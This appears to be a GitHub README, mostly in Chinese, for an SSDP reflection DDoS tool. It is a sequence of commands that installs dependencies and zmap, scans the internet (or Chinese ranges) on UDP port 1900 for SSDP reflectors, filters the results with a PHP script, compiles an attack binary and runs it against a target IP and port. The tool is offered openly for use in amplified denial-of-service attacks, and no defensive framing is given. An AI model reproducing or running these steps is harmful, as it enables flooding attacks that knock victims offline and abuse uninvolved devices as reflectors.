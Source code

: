 # SSDP
```
yum -y install gcc+ gcc-c++
yum -y install gcc libcap libpcap libpcap-devel screen php dstat cmake gmp gmp-devel gengetopt byacc flex git json-c cpan vnstat zmap
yum install cmake gmp-devel gengetopt libpcap-devel flex byacc json-c-devel libunistring-devel
wget ftp://ftp.gnu.org/gnu/gengetopt/gengetopt-2.22.6.tar.gz
tar -zvxf gengetopt-2.22.6.tar.gz
cd gengetopt-2.22.6
./configure
make
make install
```
安装zmap<br>
```
yum install git
git clone https://github.com/zmap/zmap
cd zmap/
cmake .
make -j4
make install
```
安装完成！<br>
扫描全球：<br>
```screen zmap -M udp -p 1900 --probe-args=file:upnp_1900.pkt -o ssdp.txt```<br>
扫描国内：<br>
```screen zmap -M udp -p 1900 -w cn.txt -B 100M --probe-args=file:upnp_1900.pkt -o ssdpscan.txt```<br>
扫描完成后,我们开始执行过滤!<br>
过滤 ： <br>
```php ssdpfilter.php ssdp.txt ssdpfiltered.txt 200 1000```<br>
200处理个数  1000线程<br>
全自动：screen ./scan 1<br>
自动过滤跟扫描，到时候表完成过后是ssdp.txt<br>
编译攻击脚本：<br>
```gcc -pthread ssdp.c -o ssdp```<br>
SSDP攻击：<br>
```./ssdp <target IP> <target port> <reflection file>  <time (optional)>```
